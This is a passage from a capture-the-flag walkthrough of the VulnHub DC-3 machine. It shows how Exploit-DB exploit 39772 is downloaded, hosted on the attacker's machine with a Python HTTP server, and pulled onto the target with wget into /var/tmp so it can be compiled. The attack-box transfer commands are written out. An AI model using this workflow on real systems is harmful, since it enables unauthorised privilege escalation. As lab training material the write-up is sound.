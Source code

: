 Let's download the exploit to our attackbox. :grin:  
`wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip`  

I use `vim` to look inside the zip file and it holds the *.tar file needed to exploit the target: `exploit.tar`. The `crasher.tar` is the PoC, and is NOT needed.  
Good to know as we'll need to unzip this archive, once on the target, and compile the exploit to run.  

![Contents of 39772.zip](/images/CTF/VulnHub/DC-Series/DC-3/39772-zips-exploitss.png "Contents of 39772.zip")

Let's now move onto transferring the exploit and executing it!

---

### Transferring the exploit

On the attackbox's terminal, you'll want to start up a http server, or any other quick file host app, to host the exploit, so the target can download it. I do this with python.  
`python -m http.server` --> this will run a http server within the current working directory which is where I downloaded the 39772.zip file.  

Let's hop back onto the target's terminal and `cd /var/tmp`. I choose `/var/tmp` as it'll preserve our exploit through reboots. I'm doing this in case the system crashes and its needed for a second run.  
Normally, we place exploits in `/tmp` since it's cleared at reboot.

> When it comes to pentests, it's important to clean up after yourself and revert any settings/changes that were made. Unless specified, you never want to leave changes in place as it might alter the operations of the business.  

Once in `/var/tmp`, we run the following to download the exploit from the attackbox.  
`wget http://192.168.56.1:8000/39772.zip`  
- `wget` --> is a simple network downloader that exists on most standard linux distros.
- `http://192.168.56.1:8000/` --> is my attackbox's IP, along with the default port http.server uses
- `39772.zip` --> is the exploit we downloaded earlier.

Here's a successful transfer, of 39772.zip, from the attackbox to the target.  

![Attackbox - file transfer successful 200](/images/CTF/VulnHub/DC-Series/DC-3/pyhton-m-http-server-complete.png "Attackbox - file transfer successful 200")

![Targetbox - file transfer successful](/images/CTF/VulnHub/DC-Series/DC-3/target-file-xfer-successful.png "Targetbox - file transfer successful")
